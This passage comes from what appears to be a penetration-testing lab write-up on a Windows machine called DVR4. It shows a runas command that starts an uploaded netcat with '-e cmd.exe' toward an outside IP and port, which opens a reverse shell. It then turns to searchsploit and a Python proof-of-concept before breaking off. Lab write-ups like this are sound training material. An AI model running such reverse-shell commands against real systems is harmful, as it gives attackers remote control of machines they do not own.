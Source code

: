 
Illustration 19. Windows Run As.

It may be that the Administrator user does not have a password. We upload the netcat executable to the machine as before, and the following command is executed:
```sh
C:\Windows\System32\runas.exe /env /profile /user:DVR4\Administrator "c:\users\viewer\nc.exe -nc 192.168.45.215 1234 -e cmd.exe"
```

But we need the password of Aministrator. We have to find another way.

Going back to searchsploit:

![image](Picture20.png)

Illustration 20. Output de searchsploit.

Let's try this. The Python PoC script displays the following:

![image](Picture21.png)
